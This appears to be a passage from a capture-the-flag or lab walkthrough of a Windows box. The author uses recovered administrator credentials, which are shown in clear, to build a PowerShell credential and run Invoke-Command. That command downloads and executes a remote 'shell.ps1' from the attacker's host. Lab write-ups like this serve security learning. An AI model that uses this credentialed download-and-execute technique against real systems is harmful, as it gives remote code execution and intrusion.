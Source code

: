 - Okay, now since we have creds
  - `administrator:3130438f31186fbaf962f407711faddb`
  - I tried using `Invoke-Runas.ps1` but couldn't manage to make it work
  - So I used `Invoke-Command` way

```
PS C:\inetpub\wwwroot\internal-01\log> $username = "BART\Administrator"
PS C:\inetpub\wwwroot\internal-01\log> $password = "3130438f31186fbaf962f407711faddb"
PS C:\inetpub\wwwroot\internal-01\log> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\inetpub\wwwroot\internal-01\log> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5/shell.ps1') } -Credential $credential -Computer localhost
```

![](./images/25.png)
